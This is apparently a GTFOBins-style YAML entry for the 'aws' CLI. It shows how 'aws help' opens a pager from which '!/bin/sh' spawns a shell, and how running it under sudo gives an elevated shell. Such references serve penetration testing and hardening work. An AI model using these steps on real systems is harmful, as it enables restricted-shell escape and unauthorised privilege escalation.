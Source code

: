 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        aws help
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo aws help
        !/bin/sh
---
```

